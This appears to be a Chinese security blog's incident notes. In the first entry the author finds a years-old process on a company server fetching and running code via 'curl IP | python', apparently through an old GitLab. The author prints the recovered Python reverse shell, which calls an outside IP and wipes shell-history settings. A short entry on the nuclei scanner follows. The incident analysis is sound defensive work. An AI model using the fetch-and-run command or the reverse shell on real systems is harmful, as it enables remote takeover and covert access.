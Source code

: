 
# 2021.09.09

在一台好久没注意的公司服务器上发现了这个  

```bash
1000     32702  0.0  0.0  。。。  。。。 ?        S     2018   0:00 /bin/bash -c curl IP | python
1000     32703  0.0  0.0  40896  5280  ?        S     2018   0:00 python
1000     32704  0.0  0.0   4464   428 pts/0    Ss+   2018   0:00 /bin/sh
```

乍一看，标准的挖矿啊，有木有，IP能访问，但是404。开始以为是谁测试用的，直接kill了32702  
后来觉得没这么简单，毕竟2018年运行的，幸好留有后边的32703和32704，`lsof -p 32703`发现和gitlab有关，那就基本明白了  
该服务器上有个年久失修的gitlab一直在跑着，但是，运行的Python代码到底是什么，期间根本没有落盘  
这个时候当然是去找`/proc`目录了，或者`gcore 32703`直接生成内存转储，只需要`strings`一下，仔细找一下就能发现  

```python
# -*- coding:utf-8 -*-
#!/usr/bin/env python
#back connect py version,only linux have pty module
#code by google security team
import sys,os,socket,pty
shell = "/bin/sh"
def usage(name):
    print 'python reverse connector'
    print 'usage: %s <ip_addr> <port>' % name
def main():
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        s.connect(('47.91.225.XXX',1433))
        print 'connect ok'
    except:
        print 'connect faild'
        sys.exit()
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    global shell
    os.unsetenv("HISTFILE")
    os.unsetenv("HISTFILESIZE")
    os.unsetenv("HISTSIZE")
    os.unsetenv("HISTORY")
    os.unsetenv("HISTSAVE")
    os.unsetenv("HISTZONE")
    os.unsetenv("HISTLOG")
    os.unsetenv("HISTCMD")
    os.putenv("HISTFILE",'/dev/null')
    os.putenv("HISTSIZE",'0')
    os.putenv("HISTFILESIZE",'0')
    pty.spawn(shell)
    s.close()
if name == 'main':
    main()
```

直接反弹啊，三年啊  
究竟由于Gitlab哪个洞被打的，反弹之后又执行了什么命令。。。

# 2021.08.20

[projectdiscovery之nuclei源码阅读](https://xz.aliyun.com/t/9988)  
nuclei在国内似乎并不火  
文章提到了“nuclei的最新版本支持基于chromium的headless访问”，可以通过yaml定义事件  
代码里有“go类型中的interface可以看成是任意类型，但是在使用时需要将他转换成我们指定的类型”，实际具体用的https://github.com/spf13/cast，可以用于fuzz了  

